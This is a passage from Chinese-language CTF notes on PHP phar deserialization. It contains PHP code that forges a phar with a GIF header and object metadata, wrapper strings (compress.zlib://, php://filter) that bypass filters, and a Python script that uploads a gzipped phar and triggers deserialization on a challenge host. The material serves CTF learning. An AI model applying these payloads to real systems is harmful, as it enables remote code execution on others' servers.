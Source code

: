         @unlink("phar.phar");
        $phar = new Phar("phar.phar");
        $phar->startBuffering();
        $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
        $o = new TestObject();
        $phar->setMetadata($o); //将自定义meta-data存入manifest
        $phar->addFromString("test.txt", "test"); //添加要压缩的文件
        //签名自动计算
        $phar->stopBuffering();
    ?>
    ```

*   当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://等绕过

    ```php
    compress.bzip://phar:///test.phar/test.txt
    compress.bzip2://phar:///test.phar/test.txt
    compress.zlib://phar:///home/sx/test.phar/test.txt
    php://filter/resource=phar:///test.phar/test.txt
    ```

    当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
    `php://filter/read=convert.base64-encode/resource=phar://phar.phar`
    
*   当环境中过滤了phar文件中的内容时

    在这篇文章中：https://guokeya.github.io/post/uxwHLckwx/，我们可以得知，当一个`phar`文件被`gzip、bzip2、tar、zip`等操作过后，依然可以利用`phar://`协议来正常读取，但文件被操作过后就全变成乱码了，利用这个就可以绕过过滤

    Xenny师傅的一个脚本，NSSCTF prize_p1

    ```php
    import requests
    import gzip
    import re
    
    url = 'http://xxx.nss.ctfer.vip:9080/'
    
    file = open("./ars2.phar", "rb") #打开文件
    file_out = gzip.open("./ars2.zip", "wb+")#创建压缩文件对象
    file_out.writelines(file)
    file_out.close()
    file.close()
    
    requests.post(
        url,
        params={
            0: 'O:1:"A":{s:6:"config";s:1:"w";}'
        },
        data={
            0: open('./ars2.zip', 'rb').read()
        }
    ) # 写入
    
    res = requests.post(
        url,
        params={
            0: 'O:1:"A":1:{s:6:"config";s:1:"r";}'
        },
        data={
            0: 'phar://tmp/a.txt'
        }
    ) # 触发
    